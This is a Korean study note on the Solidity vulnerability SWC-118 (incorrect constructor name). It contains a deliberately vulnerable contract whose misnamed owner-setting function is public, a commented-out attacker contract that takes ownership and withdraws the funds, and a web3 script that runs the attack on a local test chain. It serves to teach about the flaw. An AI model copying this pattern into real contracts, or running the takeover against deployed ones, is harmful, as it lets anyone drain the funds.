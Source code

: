 # *SWC118*

> Incorrect Constructor Name

- 생성자를 잘 못 생성했을 때 발생하는 취약점

생성자는 한 번만 호출이 되기 때문에 소유자가 변경되지 않음

- 함수로 선언될 경우, `owner`의 값이 변경되어 컨트랙트의 소유주가 계속 다른 계약 주소로 변경될 수 있음

### *Modifier*

- 함수 변경자로, 해당 기능을 통해서 함수의 동작을 변경할 수 있으며, 함수 실행 전에 조건을 확인할 수 있습니다.
- 마지막에 작성되는 `_;(Underscore)`구문은 함수를 실행하는 시점을 나타냄
    - `_;`를 를 기준으로, 해당 구문 전까지는 함수가 실행되지 않은 상태로, 설정한 조건을 만족한 뒤에 함수가 호출되도록 함
- 기본 구조

```jsx
...
modifier function{
	require(~~~~);
	_;
}
```

### *Constructor*

- 컨트랙트 생성 시, 실행되는

---

## *swc115 - Vulnerability Code*

- 취약한 컨트랙트 swc118을 생성, 컨트랙트의 함수지정자(modifier)를 사용해서 contract의 owner를 설정
- `constructor`를 사용하는 것이 아닌, 일반 함수를 사용해서 생성자를 선언
- 생성자가 컨트랙트명과 일치하지 않아 취약점이 발생함

- 생성자를 선언하고, `msg.sender==owner`일 경우, 함수를 호출할 수 있도록 함
- `constructor`를 선언하면, 컨트랙트의 생성자가 지정되며, 첫번째 계약주소로 고정된다.
    - owner는 첫번째 계약주소로 고정되고, 다른 주소로 변경할 수 없음
- `owner`를 함수를 통해서 설정하는 경우, 함수를 호출할 때 마다 계약 주소 및 컨트랙트 소유주가 변경됨
    - 컨트랙트의 이더 값을 함수를 호출한 사람은 누구나 가져갈 수 있게됨

> swc118.sol

*`function swc118()`*

- 컨트랙트의 소유주(owner)를 설정
- 컨트랙트명과 함수의 이름이 동일한 경우 생성자로 인식함

    → `_swc118.methods.swc118 is not a function` : 테스트 코드로 owner를 변경하고자 했을 때 이와 같이 함수가 아니라는 에러가 발생함

    - 0.4.24 이하 버전에서는 `contract name = function [contract name]`으로 생성자를 선언
        - 컨트랙트명과 함수명이 동일하지 않는 경우, 일반 호출 함수가 되기 때문에 소유주`(owner)`는 언제든지 변경될 수 있어 취약함
    - 0.4.24 이상 버전부터는 `constructor`를 사용하여 생성자를 선언

        → 컨트랙트가 배포되면, 계약 주소로 owner가 설정됨 (테스트 넷에서는 첫번째 계약주소가 owner가 됨)

*`function a()`*

- 컨트랙트에 이더 값을 전송하기 위한 함수

*`function withdraw()`*

- 컨트랙트에 있는 이더 값을 출금하기 위한 함수
- `onlyowner`로 설정되어 있어서, `owner`이외에는 해당 함수를 호출할 수 없으며, `modifier(함수 지정자)`를 통해서 `msg.sender와 owner`가 같은지 비교하여, 같은 경우 `withdraw`함수를 호출하도록 함

```jsx
// SPDX-License-Identifier: MIT
pragma solidity >=0.4.22 <0.9.0;

contract swc118{
  address private owner;
  event a_payable(address msg_sender, address _owner, uint256 value);
  event _withdraw(address msg_sender, address _owner, uint256 value);
  event setowner_event(address owner, address msg_sender);

  //함수지정자
  // _;는 함수를 실행하기 전에 행동을 제한하는 것에 사용
  modifier onlyowner{
    require(msg.sender==owner,
    "only owner call this");
    _; //require 행동을 완료하고, 함수를 실행시킨다는 의미
  }

  //생성자, 일반 함수로 호출, 생성자 및 owner는 계속 변경됨
  //호출당하면 owner의 값이 변경됨 msg.sender == owner
  //컨트랙트명과 동일한 이름으로 함수를 생성 = 생성자를 생성
  //0.4.24 이상 버전부터는 constructor를 사용
  //컨트랙트명과 함수의 이름이 동일하지 않는 경우, 일반 호출 함수로 변경됨
  function swc118() public{
    owner = msg.sender;
    emit setowner_event(owner, msg.sender);
  } 

  /*function Swc118() public{
    owner = msg.sender;
    emit setowner_event(owner, msg.sender);
  } */

  //생성자 fixed
  /*constructor()
        public
    {
        owner = msg.sender;
    }*/

  function a() payable{
    emit a_payable(msg.sender, owner, msg.value);
  }

  //onlyowner만 호출할 수 있음
  function withdraw() public onlyowner{
    require(msg.sender==owner,
    "msg.sender is not owner");
    emit _withdraw(msg.sender, owner, this.balance);
    owner.transfer(this.balance);
  }
}

/*contract attack{
  address attacker;
  swc118 swc118_contract;

  //컨트랙트 및 공격자의 주소를 설정 
  function setaddr(swc118 _swc118_contract, address attack_address) {
    swc118_contract = _swc118_contract;
    attacker = attack_address;
  }

  //Swc118 함수를 호출해서 owner를 재설정
  function attack_swc118() {
    swc118_contract.Swc118();
  }

  function attack_withdraw(){
    swc118_contract.withdraw();
  }

}*/
```

- test.js

```jsx
const Web3 = require('web3');
const web3 = new Web3(new Web3.providers.HttpProvider("http://127.0.0.1:9545"));
const swc118_json = require("../build/contracts/swc118.json")
const attack_json = require("../build/contracts/attack.json")
const swc118_abi = swc118_json['abi'];
const attack_abi = attack_json['abi'];
const _swc118 = new web3.eth.Contract(swc118_abi, "0x9E5192F1828f71213b70f01D76b4cf47BE5B3C61");
const _attack = new web3.eth.Contract(attack_abi, "0x9E5192F1828f71213b70f01D76b4cf47BE5B3C61");

// account[0] = 희생자 주소
// account[1] = 예비용 주소
// account[2] = 공격자 주소
async function swc118(){
    const account0 = (await web3.eth.getAccounts())[0];
    const account1 = (await web3.eth.getAccounts())[1];
    const account2 = (await web3.eth.getAccounts())[2];

    await _swc118.methods.swc118().send({from:account1,gas:100000,gasPrice:'100000'}).then(
        function(result){
            console.log(result);
        }
    )
}

async function swc118_withdraw(){
    const account0 = (await web3.eth.getAccounts())[0];
    const account1 = (await web3.eth.getAccounts())[1];
    const account2 = (await web3.eth.getAccounts())[2];
    //swc118 컨트랙트의 이더 값을 전부 출금
    await _swc118.methods.withdraw().send({from:account0,gas:100000,gasPrice:'100000'}).then(
        function(result){
            console.log(result);
        }
    )
}

async function attack_addrset(){
    const account0 = (await web3.eth.getAccounts())[0];
    const account1 = (await web3.eth.getAccounts())[1];
    const account2 = (await web3.eth.getAccounts())[2];
    
    await _attack.methods.setaddr("0xd09C033BDD48729df7fD4f9A28D8d7a106C15e81","0x093A0224259989B389d56dF889d19Cb70b4F37f2").send({from:account2,gas:100000,gasPrice:'100000'}).then(
        function(result){
            console.log(result);
        }
    )

    await _attack.methods.attack_swc118().send({from:account2,gas:100000,gasPrice:'100000'}).then(
        function(result){
            console.log(result);
        }
    )
}

async function attack_swc118(){
    const account0 = (await web3.eth.getAccounts())[0];
    const account1 = (await web3.eth.getAccounts())[1];
    const account2 = (await web3.eth.getAccounts())[2];

    await _attack.methods.attack_withdraw().send({from:account2,gas:100000,gasPrice:'100000'}).then(
        function(result){
            console.log(result);
        }
    )
}

async function swc118_sendether(){
    const account9 = (await web3.eth.getAccounts())[9];
    await _swc118.methods.a().send({from:account9,gas:100000,gasPrice:'100000',value:web3.utils.toWei("0.1","ether")}).then(
        function(result){
            console.log(result);
        }
    )
}
//swc118();
swc118_withdraw();
//attack_addrset();
//attack_swc118();
swc118_sendether(); //account9에서 알아서 0.1씩 계속 입금
```
